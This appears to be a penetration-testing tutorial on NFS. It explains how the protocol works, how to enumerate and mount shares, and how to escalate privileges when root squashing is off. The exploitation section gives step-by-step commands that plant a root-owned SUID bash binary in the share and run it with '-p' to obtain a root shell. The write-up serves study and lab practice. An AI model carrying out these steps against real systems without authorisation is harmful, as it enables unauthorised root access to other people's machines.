 
NFS stands for "Network File System" and allows a system to share directories and files with others over a network. By using NFS, users and programs can access files on remote systems almost as if they were local files. It does this by mounting all, or a portion of a file system on a server. The portion of the file system that is mounted can be accessed by clients with whatever privileges are assigned to each file.

First, the client will request to mount a directory from a remote host on a local directory just the same way it can mount a physical device. The mount service will then act to connect to the relevant mount daemon using RPC.

The server checks if the user has permission to mount whatever directory has been requested. It will then return a file handle which uniquely identifies each file and directory that is on the server.

If someone wants to access a file using NFS, an RPC call is placed to NFSD (the NFS daemon) on the server. This call takes parameters such as:

-  The file handle
-  The name of the file to be accessed
-  The user's, user ID
-  The user's group ID  

These are used in determining access rights to the specified file. This is what controls user permissions, I.E read and write of files. Using the NFS protocol, you can transfer files between computers running Windows and other non-Windows operating systems, such as Linux, MacOS or UNIX.

Current version of NFS is 4.2.

## **Enumeration**

It is important to have **NFS-Common** installed on any machine that uses NFS, either as client or server. It includes programs such as: **lockd**, **statd**, **showmount**, **nfsstat**, **gssd**, **idmapd** and **mount.nfs**.

The following can be used to list NFS shares :

```bash
/usr/sbin/showmount -e [IP]
```

Your client’s system needs a directory where all the content shared by the host server in the export folder can be accessed. For e.g.., `/tmp/mount`.

Once you've created this mount point, you can use the "mount" command to connect the NFS share to the mount point on your machine like so:

```bash
sudo mount -t nfs IP:share /tmp/mount/ -nolock
```


## **Exploitation**

If you have a low privilege shell on any machine and you found that a machine has an NFS share you might be able to use that to escalate privileges, depending on how it is configured.

By default, on NFS shares- **Root Squashing** is enabled, and prevents anyone connecting to the NFS share from having root access to the NFS volume. Remote root users are assigned a user “nfsnobody” when connected, which has the least local privileges. Not what we want. However, if this is turned off, it can allow the creation of SUID bit files, allowing a remote user root access to the connected system.

To prepare we navigate to the mounted folder on our attacker machine : 

```bash
/tmp/mount🔒 
❯ cd user/
```

We begin by copying over the bash executable to our attacker machine from the victim machine in order to ensure compatibility using : 

```bash
❯ scp -i /path/to/id_rsa user@10.10.83.29:/bin/bash ~/Downloads/bash
```

We then copy it into the mounted folder : 

```bash
tmp/mount/user 
❯ cp ~/Downloads/bash .
```

We then provide the bash executable to be owned by a root user and possess the SUID bit : 

```bash
❯ sudo chown root ./bash

❯ sudo chmod +s bash
```

The permissions should read as follows : 

```bash
/tmp/mount/cappucino 
❯ ls -al
total 1124
drwxr-xr-x 5 kali kali    4096 Jan 21 11:06 ./
drwxr-xr-x 3 root root    4096 Apr 22  2020 ../
-rwsr-sr-x 1 root kali 1113504 Jan 21 11:06 bash*
```

We then SSH into the user and run our malicious bash executable with the `-p` flag to maintain permissions to obtain a `root` shell : 

```bash
user@10.10.83.29:~$ ./bash -p
```



